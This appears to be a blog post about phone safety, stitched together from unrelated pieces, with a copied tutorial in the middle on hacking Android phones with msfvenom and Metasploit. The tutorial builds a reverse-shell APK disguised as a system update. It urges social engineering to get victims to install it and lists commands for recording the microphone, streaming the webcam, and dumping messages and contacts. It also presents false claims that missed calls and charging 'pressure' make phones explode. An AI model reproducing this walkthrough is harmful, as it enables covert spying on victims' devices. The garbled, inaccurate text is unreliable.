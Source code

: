 Akash Angle burts the myth of how a classical Mobile phones aka smartphones here of any kind which could be or can be set as a target and blasted in order to destroy it as per Command and Control Unit set by the hacker.

Mobile phones may be treated like playthings these days. However, these flashy gadgets can prove dangerous if not handled with care:-
 
How and why do mobile phone blasts happen?
 
 The most common reasons for a cell phone to explode are using it while the phone is being charged and "call bombing". Charging puts pressure on the motherboard of the phone, using it during charging increases this pressure manifold. This causes the cheap electronic components in some mobiles to explode. Call bombing refers to calls or missed calls received from international numbers. If one receives or calls these numbers back and the call exceeds a certain amount of time, the phone will blast. There is also a malware, or bug, found in some Android-based smartphones, that can also cause explosion by exerting extra pressure on the motherboard during charging.
 
This is as explained below for Android.
When it comes to hacking Android phones, there are lots of ways for doing so. There are apps, web portals, scripts, and whatnot. We have already seen how to hack android device with spynote.

So today we are going to guide you on how to hack android phone using Metasploit and MSFVenom.

For performing this hack using Metasploit or msfvenom, you’ll need Kali Linux OS installed in your computer and Android Phone as a target. And obviously, internet connection is a must.

Disclaimer:
Please be aware that hacking is illegal unless you have permission from the account owner and the parties involved. This post should be used as a tool to help people understand how hackers are hacking android devices with Metasploit and msfvenom. The Hacking world team shall not be held responsible if any criminal charges are brought against any person who misuses the information on this website to violate the law.

Step 1: Creating a malicious apk file

Open your KALI LINUX. Open your Terminal and type in the following command

# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.78.129 LPORT=4444 R > SystemUpdate.apk

output:-

**LHOST= YOUR IP address

**LPORT= 4444

**Use ifconfig to find your IP address if you don`t know.

# ifconfig

Step 2: Delivering APK file to the victim

You have now created your malicious spyware .apk file using Metasploit and msfvenom. It will be saved to your /home/ folder by default. Find your newly created hackingworld.apk and send it to your target (hackingworld.apk). Use social engineering to do this so that the victim does install the apk.

**If you get any signing errors or issues use the following:

Keytool (Comes Pre-Installed in Kali Linux)

keytool -genkey -v -keystore my-release-key.Keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

Jarsigner (Comes Pre-Installed in Kali Linux)

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore hackingworld.apk aliasname

jarsigner -verify -verbose -certs hackingworld.apk
Step 3: Metasploit setup

Open up a new terminal and use the following command to start Metasploit framework.

# msfconsole

Now in the Metasploit framework console type the following

msf  > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.78.129
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > exploit

Here

**LHOST= YOUR IP address

**LPORT= 4444

Now when the user opens up the app on his/her phone, you will get a session with that device. And whoa! The device is yours to operate. Metasploit and msfvenom are not that difficult to use but need very methodology steps that need to implement.

Step 4: Exploit..!!!

The moment the victim opens the application on their device, you will get a meterpreter shell on the Kali Linux terminal.

You have now successfully hacked the android device using Metasploit and msfvenom

Some commands you should try using Metasploit and msfvenom:

– record_mic

Records the audio from the android device and stores it on the local drive.

– webcam_snap

Lets you take the images by hacking the android camera of the device

– webcam_stream

Lets you stream live video from the hacked android camera

– dump_contacts

Lets you hack and copy all the contacts from the victim’s phone.

– dump_sms

Lets you hack the victim’s messages and stored it in a text file on your system.

– geolocate

Helps you track the hacked device by location

So, this is how hackers hack using Metasploit and msfvenom on the local network. But what if we wanted to hack android devices with Metasploit over the internet.

Note:- Screenshots are not purposely added as this is a limitation here on my system and I do not want to show more information regarding what is happening in my console.

##Precautions to be taken as per Akash Angle:- 
 
 
What care should be taken to ensure not much pressure is put on the phone?
 
 Avoid using the phone while the battery is being charged. If you wish to receive a call during this time, disconnect the phone from charger before connecting the call. Ensure it is not over-charged by removing the electric supply when the battery is fully charged. If your battery seems to have swollen, replace it immediately.
 
 
Why is it dangerous to buy cheap phones?
 
 Most cheap models, like those of Chinese make, use hardware and components that are not branded and often substandard. The quality of vital accessories such as battery and earphones are compromised which can have disastrous outcome. Such components cannot be used continuously for as long as their high-quality substitutes. Their shelf life is also shorter.
 
 
Is it more harmful to surf internet or download anything on mobile phones?
 
 Yes, because the anti-virus softwares for mobile phones are not as effective. That is why one should avoid downloading anything from a third party vendor, ie directly from the internet browser. Instead use the in-built store or market application provided by the operating system. Malware, which is software that creates a bug in the operating system of the phone, often gets downloaded with third party tools. The sites that you visit using the phone must start with an https (which means they are encrypted or safe sites).
 
 Avoid using public or unsecured Wi-Fi connections. A hacker could access the mobile device through a port that is not secured. Make sure the Bluetooth connectivity is not switched on in public places as it can be used to send malicious files which corrupt the operating system.
 
 
Are there certain precautions that must be practiced while using a mobile phone?
 
 While communicating using your cell phone, try to keep the cell phone away from the body as this would reduce the strength of the electromagnetic field of the radiations. Whenever possible, use the speaker-phone mode or a wireless blue tooth headset. For long conversations, use a landline phone.
 
 Avoid carrying your cell phone on your body at all times. When in pocket, make sure that key pad is positioned toward your body so that the transmitted electromagnetic fields move away from you rather than through you. Do not keep it near your body at night such as under pillow or a bedside table, particularly if pregnant. You can also put it on 'flight' or 'offline' mode, which stops electromagnetic emissions. Avoid using your cell phone when signal is weak or when moving at high speed, such as in car or train.
 
 
How to deal with a wet phone?
 
 After removing the phone from water, dismantle it by removing battery, SIM and memory cards and switch it off (only SIM card in case of an iPhone). Dry each component thoroughly (but gently) with a towel until the phone is dry to the touch. Then put all components in a bowl of uncooked rice in a way that all components are totally covered. If you have any silica packets (the ones that come with products like new shoes), put them in to the bowl too. Leave it there for 12-24 hours.
 
 Never use a hair dryer to try to dry the phone quicker. Drying it with a heated hair dryer can cause important parts to melt, while forcing water further into the phone. Drying it will a cold hair dryer will just force water deeper into the phone.
 
 So these are the do's and dont's so be calm and use your toys with precautions and care and do not fall into phishing and other malacious attacks. Take care, have fun.

Cheers !
